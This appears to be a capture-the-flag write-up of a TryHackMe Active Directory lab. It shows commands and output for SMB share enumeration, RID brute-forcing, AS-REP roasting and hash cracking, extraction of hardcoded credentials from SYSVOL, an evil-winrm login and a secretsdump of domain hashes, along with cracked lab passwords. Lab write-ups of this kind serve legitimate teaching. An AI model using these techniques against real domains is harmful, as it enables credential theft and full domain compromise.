#### Nmap

Performing a basic nmap scanning:
```bash
sudo nmap -A -Pn 10.112.136.156
```

```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  tcpwrapped
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-04 14:49:51Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

#### smb
Null sessions are not allowed, however the guest user can access several SMB shares:
```bash
nxc smb 10.112.136.156 -u 'guest' -p ''  --shares
```


\[+\] Acccessible shares:

1) VulnNet-Business-Anonymous

2) VulnNet-Enterprise-Anonymous

3) IPC$ (not relevant)

Using smbclient, connect to the first share:
```bash
smbclient \\\\10.112.136.156\\VulnNet-Business-Anonymous -U 'guest' -p '' 
```


Both shares contain multiple .txt files, which were downloaded for further analysis.



### Content of Files 
###### -> `Business-Manager.txt`:
```bash
VULNNET BUSINESS
~~~~~~~~~~~~~~~~~~~

Alexa Whitehat is our core business manager. All business-related offers, campaigns, and advertisements should be directed to her. 
We understand that when you’ve got questions, especially when you’re on a tight proposal deadline, you NEED answers. 
Our customer happiness specialists are at the ready, armed with friendly, helpful, timely support by email or online messaging.
We’re here to help, regardless of which you plan you’re on or if you’re just taking us for a test drive.
Our company looks forward to all of the business proposals, we will do our best to evaluate all of your offers properly. 
To contact our core business manager call this number: 1337 0000 7331

~VulnNet Entertainment
~TryHackMe
```
###### -> `Business-Sections.txt`:
```bash
VULNNET BUSINESS
~~~~~~~~~~~~~~~~~~~

Jack Goldenhand is the person you should reach to for any business unrelated proposals.
Managing proposals is a breeze with VulnNet. We save all your case studies, fees, images and team bios all in one central library.
Tag them, search them and drop them into your layout. Proposals just got... dare we say... fun?
No more emailing big PDFs, printing and shipping proposals or faxing back signatures (ugh).
Your client gets a branded, interactive proposal they can sign off electronically. No need for extra software or logins.
Oh, and we tell you as soon as your client opens it.

~VulnNet Entertainment
~TryHackMe
```
###### Enterprise-Safety.txt
```bash
VULNNET SAFETY
~~~~~~~~~~~~~~~~

Tony Skid is a core security manager and takes care of internal infrastructure.
We keep your data safe and private. When it comes to protecting your private information...
we’ve got it locked down tighter than Alcatraz. 
We partner with TryHackMe, use 128-bit SSL encryption, and create daily backups. 
And we never, EVER disclose any data to third-parties without your permission. 
Rest easy, nothing’s getting out of here alive.

~VulnNet Entertainment
~TryHackMe
```
###### Enterprise-Sync.txt
```bash
VULNNET SYNC
~~~~~~~~~~~~~~

Johnny Leet keeps the whole infrastructure up to date and helps you sync all of your apps.
Proposals are just one part of your agency sales process. We tie together your other software, so you can import contacts from your CRM,
auto create deals and generate invoices in your accounting software. We are regularly adding new integrations.
Say no more to desync problems.
To contact our sync manager call this number: 7331 0000 1337

~VulnNet Entertainment
~TryHackMe
```

-> Enterprise-Operations.txt and Business-Tracking.txt do not contain any useful information.

### Users enumeration

From the collected documents, several employee names were identified:
```bash
Alexa Whitehat
Jack Goldenhand
Tony Skid
Johnny Leet
```
Using `username-anarchy`, a list of possible usernames was generated:
```bash
 ./username-anarchy -i ../users.txt > ../usernames.txt
```
Attempting Kerberos user enumeration with kerbrute did not yield results:
```bash
└─$ kerbrute userenum --dc 10.112.136.156 -d vulnnet-rst.local usernames.txt 
```

Since this approach failed, RID brute-forcing was used instead.
## RID Bruteforce

Using Impacket's `lookupsid.py`, valid domain users were enumerated: 
```bash
lookupsid.py  guest@10.112.136.156
```

This successfully reveals all usernames:
```bash
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
513: VULNNET-RST\Domain Users (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

## AS-REP Roasting
Some accounts may have Kerberos pre-authentication disabled, making them vulnerable to AS-REP roasting.
```bash
└─$ GetNPUsers.py vulnnet-rst.local/ -usersfile valid_users.txt -format hashcat -outputfile asrep.hashes
```

A hash for the t-skid user was obtained and successfully cracked:
```bash
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:05ceb1128674c0fd511c4e546b3bc425$ed0fe6e39a23e13148cacb9277b0fd13aea539dae2b966e33e492116110363310fe4db27a5f7619526c30df4000b0665d9f170752fc05269db80d868ae19a83b1c8787f4d02f79838f978d7b2f3450c7234a7b83891f751ba9026092b10eb67dad5fbff19ec54583f62984c56935d9696321ece8b2855a63b8243dc7dcd7df03bbd23fa0bd5c5123b458808ab840caadc9492d9c4205331d48f256cc7273aeb360bd2bbea835d00e6337593b69a9e1a1059a8ae97377d67a7b4ed4e5b670dd80690605c28782867a085952c0aa96f7b8a887ae554dcc688ce74e76ea7275658630677d4f124eb29d8475e81548acd0ceeb0d65ce1ab7
```
When we obtain the ticket it is possible to crack the hash to get a valid password. However, it works only in a case if user uses a weak password.

So, crack the hash:
```bash
└─$ hashcat -m 18200 -a 0 asrep.hashes /usr/share/wordlists/rockyou.txt
```


\[+\] Credentials recovered ->  `t-skid:tj072889*`

With valid credentials, additional SMB shares became accessible
```bash
└─$ nxc smb 10.112.136.156 -u 't-skid' -p 'tj072889*'  --shares
```

The SYSVOL share often contains scripts and configuration files, making it a valuable target for credential discovery.

In this case the SYSVOL share might have a lot of directories and files and one one of them may be useful later. The SYSVOL share was mounted locally: 
```bash
└─$ sudo mount -t cifs //10.112.136.156/SYSVOL /mnt/10.112.136.156 -o username='t-skid',password='tj072889*',domain=vulnnet-rst.local
```

Mounted directory tree:

Inside the share, a script named `ResetPassword.vbs` was discovered containing hardcoded credentials:
```bash
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```
Using these credentials, we successfully connected to the target via evil-winrm: 
```bash
└─$ evil-winrm -i 10.112.136.156 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
```
```bash
whoami /priv
```


```bash
whoami /groups
```


user.txt:



The flag cannot be read from the Administrator directory:

```bash
-a----        3/13/2021   3:34 PM             39 system.txt
```
The user a-whitehat is a member of the Domain Admins group.  
This provides full control over the system.

For example, ownership of the system.txt file can be taken:
```bash
takeown /f C:\Users\Administrator\Desktop\system.txt
icacls C:\Users\Administrator\Desktop\system.txt /grant a-whitehat:F
```

Alternatively, domain hashes can be dumped:
```bash
└─$ secretsdump.py -just-dc a-whitehat:bNdKVkjv3RR9ht@10.112.136.156   
```

With the administrator hash, a Pass-the-Hash (PTH) attack can be performed:


